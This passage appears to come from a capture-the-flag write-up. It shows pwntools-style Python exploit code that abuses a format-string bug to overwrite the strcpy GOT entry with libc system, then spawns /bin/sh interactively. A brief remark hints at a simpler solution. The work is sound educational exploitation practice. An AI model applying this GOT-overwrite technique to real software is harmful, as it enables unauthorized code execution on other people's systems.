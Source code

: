 ```python
b1 = (u64(SYSTEM_AT_LIBC) >> 8) & 0xff
send_payload_with_input(byte_write(u64(STRCPY_AT_GOT) + 1, b1, 18)) 

b2 = (u64(SYSTEM_AT_LIBC) >> 16) & 0xff
send_payload_with_input(byte_write(u64(STRCPY_AT_GOT) + 2, b2, 18))

ADDR_OF_IMPORTANT_LOCAL = u64(ADDR_OF_CONTROLLABLE_BUFFER) + 0x80 # this can be deduced from the disassembly
print("Address of important local: ", p64(ADDR_OF_IMPORTANT_LOCAL)[::-1].hex())
ADDR_OF_PL = u64(ADDR_OF_CONTROLLABLE_BUFFER) + 0x20 # +32 (20 index) for some reason, it wont let me write on +24

for i in range (0, 8): # write byte by byte the address of the local variable in main() that controls whether main_connected/main_disconnected gets called
	b = (ADDR_OF_IMPORTANT_LOCAL >> 8 * i) & 0xff
	send_payload_with_input(byte_write(ADDR_OF_PL + i, b, 18))
	
prefix = bytes(b'/bin/sh #')
needed = (256 - len(prefix)) & 0xff
fmt = f"%{needed}c%20$hhn".encode()
    
#gdb.attach(proc)

send_payload_with_input(prefix + fmt)

# finally, after going back into main_disconnected the login, exit prompt will be displayed again

proc.sendline(b'1') # log in
proc.sendline(b'') # skip a random read

proc.interactive() # and there we go...
```

There's a much, much simpler solution as I mentioned, skipping the last part where I overwrite `local_18`. Try to solve the exercise by yourself, and find out what it is! You'll facepalm as hard as I did... 🤦‍♂️
